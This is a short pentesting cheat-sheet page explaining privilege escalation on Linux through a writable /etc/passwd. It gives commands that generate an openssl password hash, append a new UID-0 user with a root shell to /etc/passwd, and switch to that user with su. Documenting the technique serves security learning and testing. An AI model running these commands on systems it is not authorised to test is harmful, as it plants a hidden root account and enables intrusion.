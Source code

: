 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Authentication

The `/etc/passwd` file can contain password hashes directly instead of an `x`, indicating that the password hash is stored in `/etc/shadow`. If `/etc/passwd` is writable, it allows the creation of arbitrary users with root privileges.

1. generate a hash using **`openssl`**

```bash
openssl passwd <password>
```

2. Edit the `/etc/passwd` file

```bash
echo "<new_username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```

3. Login to the newly created user with root previliges

```bash
su <new_username>
```

## References

{% embed url="https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/" %}
Raj Chandel’s Blog
{% endembed %}
